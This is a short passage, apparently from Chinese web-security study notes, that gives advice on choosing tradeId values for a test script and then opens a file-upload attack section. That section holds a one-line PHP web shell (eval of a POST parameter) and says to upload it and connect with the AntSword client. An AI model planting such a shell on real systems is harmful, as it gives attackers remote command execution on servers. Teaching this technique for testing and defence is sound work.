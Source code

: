 

运行结果：

![image-20250224100019602](../../_media/image-20250224100019602.png)



建议：

- 如果是服务器刚开始就运行代码，建议可以递增取`tradeId`，因为所有的`tradeId`都没有被使用过，如果是已经测试很多遍的脚本程序，那可以使用`random`函数进行提取，只不过数据范围要越过之前用过的`ID`





## 文件上传案例

### 基础文件上传案例

直接新建`shell.php`文件

```php
<?php @eval($_POST['cmd'])?>
```

直接上传，然后蚁剑连接

